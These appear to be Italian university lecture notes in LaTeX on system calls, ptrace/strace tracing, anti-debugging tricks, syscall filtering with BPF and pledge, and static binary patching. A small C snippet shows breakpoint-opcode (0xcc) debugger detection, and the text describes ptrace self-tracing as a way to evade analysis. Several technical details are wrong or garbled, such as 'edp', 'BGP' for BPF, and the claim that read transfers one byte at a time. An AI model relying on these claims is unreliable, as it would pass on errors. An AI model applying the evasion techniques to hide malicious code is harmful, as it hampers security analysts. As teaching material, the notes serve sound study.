    
\includegraphics[width=.5\linewidth]{res/segmentation_memory.png}
    \caption{}
\end{figure}
\begin{lema}[]{}{}
    La locazione 0 (null) non è mappata in memoria centrale, ciò condurrà a un segmentation fault se acceduta.
\end{lema}

\section{Systemcall}
Una systemcall è una procedura che comunica con il kernel. Per risolvere la systemcall il sistema processerà la richiesta e opererà di conseguenza.
Alcune systemcall sono:
\begin{itemize}
    \item \textbf{open};
    \item \textbf{read};
    \item \textbf{write};
    \item \textbf{socket}.
\end{itemize}

Il sistema operativo deve accettare la procedura dal programma nello userland per ricevere i corretti parametri dallo userland.
Un esempio di x86\_32 bit: 
\begin{lstlisting}[language={[x86masm]Assembler}]
    int 0x80;
\end{lstlisting}
La trap può risultare troppo lenta, per questo è stato microprogrammato in un opcode dedicato nel x86\_64:
\begin{lstlisting}[language={[x86masm]Assembler}]
    syscall
\end{lstlisting}
Il valore della systemcall viene caricato nel registro \textit{rax} (\textit{eax} nei processori 32bit).
I parametri verranno passati nei seguenti registri:
\begin{itemize}
    \item \textit{\textbf{eax}};
    \item \textit{\textbf{ebx}};
    \item \textit{\textbf{ecx}};
    \item \textit{\textbf{edx}};
    \item \textit{\textbf{esi}};
    \item \textit{\textbf{edi}};
    \item \textit{\textbf{edp}};
\end{itemize}
mentre il codice di ritorno della systemcall sarà inviato all'utente attraversa il salvataggio nel registro \textit{rax} (\textit{eax} nei processori 32bit).
Per i sistemi a 64 bit i parametri saranno passati attraverso i registri:
\begin{itemize}
    \item \textit{\textbf{rdi}};
    \item \textit{\textbf{rsi}};
    \item \textit{\textbf{rdx}};
    \item \textit{\textbf{r10}};
    \item \textit{\textbf{r8}};
    \item \textit{\textbf{r9}};
\end{itemize}

A prima vista una systemcall può sembrare una chiamata ad una libreria, questa cosa è vera, ma seppur simili la libreria e la systemcall differiscono da lacune cose.
\begin{figure}[h!]
    \centering
    \begin{subfigure}{.5\textwidth}
      \centering
      
\includegraphics[width=.5\linewidth]{res/fopen_library.png}
      \caption{Utilizzo della libreria fopen}
    \end{subfigure}%
    \begin{subfigure}{.5\textwidth}
      \centering
      
\includegraphics[width=.5\linewidth]{res/open_library.png}
      \caption{Utilizzo della syscall open}
    \end{subfigure}
\end{figure}

La differenza maggiore è nella velocità di esecuzione delle due, la syscall è sensibilmente più lenta di una libreria ottimizzata.
Infatti avremo che durante una syscall il trasferimento di dati sarà di un byte alla volta (\textit{read}), mentre nella libreria (\textit{fread}) la velocità sarà di una o più pagine alla volta, riducendo sensibilemnte il tempo di esecuzione.

Per come sono impelementate le systemcall avremo che ogni qual volta si effettuerà una lettura con \textit{read} avverrà un context switch, al contrario utilizzando \textit{fread} sarà letto un intero blocco di dati e trasferito byte per byte senza nessuno switch.

\subsection{Dynamic tracing}
\textit{\textbf{Ptrace}} è una systemcall in grado di controllare il comportamento di un programma tracciato. Può essere istruita per recuperare la memoria i registri e le systemcall invocate dal processo tracciato.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/ptrace_header.png}
    \caption{}
\end{figure}
\textit{Strace} è un tool basato su \textit{Ptrace} che analizza dinamicamente un programma e stampa tutte le systemcall chiamate da esso.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/strace.png}
    \caption{}
\end{figure}

\subsection{Anti dynamic analysis}

Una delle tecniche di anti analisi dinamica è l'elusione di ptrace semplicemente tracciando se stesso e disabilitando il meccanismo di ptrace, come da manpage, in alcuni casi alcunelanguage virtual machines sono impiegate per offuscare il codice.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/anti_analysis_ptrace.png}
    \caption{}
\end{figure}

Un altra tecnica impiegabile prende il nome di anti breakpoint, questa tecnica consiste nell'inserire l'opcode del debugger (\textit{0xcc}, int 3) che si usa per tracciare i breakpoint nei programmi.
In questo modo il programma puù controllare se sta essendo debuggato controllando la presenza di breakpoint, portando così un uscita prematura dal programma senza terminare la corretta esecuzione;

Supponiamo di avere il seguente codice:
\begin{lstlisting}[language=C]
    #include <stdio.h>
    #define PRINT_SIZE 16
    int foo() {
        unsigned char x = *(((unsigned char *)foo)+ 4);
        printf("%02x\n", x);
        if(x == 0xcc)
            printf("detected debugger! :D \n");
        return 0;
    }
    int main(int argc, char **argv) {
        foo();
        return 0;
    }
\end{lstlisting}

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/anti_breakpoint.png}
    \caption{}
\end{figure}

\subsection{Systemcall firewalls}
Le systemcall possono essere inserite in una tabella di firewall in linux utulizzando BGP, possono essere caricate nella seguente maniera:
\begin{itemize}
    \item \textbf{BPF} (Berkeley packet filter);
    \item \textbf{Plege}, e altre implementazioni.
\end{itemize}

\subsubsection{BPF (Berkeley packet filter)}
É language virtual machine inserita nel kernel linux atta a velocizzare le operazioni di filtraggio dei firewalls. Questo linguagio specifica le regole che accettano o rifiutano un pacchetto.
In questo caso i parametri delle systemcall sono mappati come campi dei pacchetti, in questo modo la systemcall può essere filtrata dal programma che la invoca, limitatamente al set delle systemcall utilizzabili.

\subsubsection{Plege}
Alcuni kernel hanno una differe implementazione di questo concetto come \textbf{pledge(2)} in OpenBSD.
Essa verrà trattata nelle successive lezioni. Si può immaginare comunque a un firewall che blocca le systemcall di ptrace, in questo caso l'uso di GDB sarà bloccato dal firewall stesso.

\section{Modifiche statiche di un binario}
Sappiamo modificare il comportamento dinamico di un programma, ma cosa sappiamo del comportamento statico di un binario?
Possiamo alterarne il codice inserendo diversi opcode tramite l'uso di tool di base come vim o xxd.

Prendiamo in esempio questo codice:
\begin{lstlisting}[language=C]
    #include <stdio.h>
    #include <string.h>
    int main(int argc, char **argv){
        char buf[8];
        FILE *f;
        if (argc < 2)
            return 1;
        f = fopen("/dev/urandom", "r");
        fread(buf, 1, sizeof(buf), f);
        fclose(f);
        if(!memcmp(buf, argv[1], sizeof(buf)))
            printf("Wow!\n");
        return 1;
    }    
\end{lstlisting}

otterremo questo codice assembly:
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.6\linewidth]{res/static_modification_test.png}
    \caption{}
\end{figure}

